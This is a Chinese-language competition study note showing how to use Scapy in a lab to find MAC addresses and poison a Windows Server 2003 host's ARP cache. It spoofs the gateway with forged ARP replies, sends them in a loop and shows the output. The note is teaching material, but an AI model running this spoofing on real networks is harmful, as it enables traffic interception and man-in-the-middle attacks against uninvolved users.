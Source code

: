 ### 使用Scapy对ARP协议缺陷进行利用



本篇笔记是对省赛中scapy.md的补充说明，另外针对国赛使用的环境，使用python3



#### 安装

```
$ sudo python3 -m pip install scapy
```

#### 场景

| 角色                      | 网卡接口 | IP地址         | 硬件地址          | 网关地址      |
| ------------------------- | -------- | -------------- | ----------------- | ------------- |
| 攻击机-Ubuntu18.04        | ens33    | 192.168.247.24 | 00:0c:29:a7:3b:4d | 无            |
| 靶机A-Windows Server 2003 | 本地连接 | 192.168.247.16 | 00:0C:29:4A:25:26 | 192.168.247.2 |
| 局域网网关                | 无       | 192.168.247.2  | 00:50:56:fe:55:fe | 无            |


#### 手工利用
```
#创建raw_socket需要root权限
$ sudo scapy
#设定使用的网络接口
>>> conf.iface="ens33"
=============================================================================
#目的：查询靶机A的硬件地址
#使用sr1函数，发送一个数据包，接收一个数据包
#使用ARP类构造ARP数据包，操作码op指定为1或"who-has"，目标IP地址pdst指定为靶机IP地址
#其他的选项会自动根据环境填充：本机ip地址，本机硬件地址
#sr1函数返回靶机响应的ARP数据包，数据包中的hwsrc为靶机的硬件地址
>>> sr1(ARP(op=1, pdst="192.168.247.16")).hwsrc
Begin emission:
*Finished sending 1 packets.

Received 1 packets, got 1 answers, remaining 0 packets
'00:0c:29:4a:25:26'
=============================================================================
#目的：查询当前使用的网卡的硬件地址
>>> ARP().hwsrc
'00:0c:29:a7:3b:4d'
=============================================================================
#目的：告知靶机A，网关的硬件地址为攻击机的硬件地址
#使用send函数，发送数据包，不接收返回数据包
#使用ARP类构造ARP数据包，操作码op指定为2，指定源IP地址为网关地址，指定目标IP地址为靶机
#其他的选项会根据环境进行自动填充：本机硬件地址
>>> send(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
.
Sent 1 packets.
=============================================================================
#目的：基于上题的目的，改为循环发送ARP数据包，保持靶机被毒化状态
#使用srloop函数循环发送数据包
#由于主机接收到ARP响应报文后不会回应，所以这个函数接收不到数据包，所以会是fail
#实验时发现win server 2003接收到arp响应报文后，只有当arp表中有相应的IP项，才会根据报文进行更新
#如果没有对应的IP项，不会根据响应报文创建IP-MAC映射关系
>>> srloop(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2


```

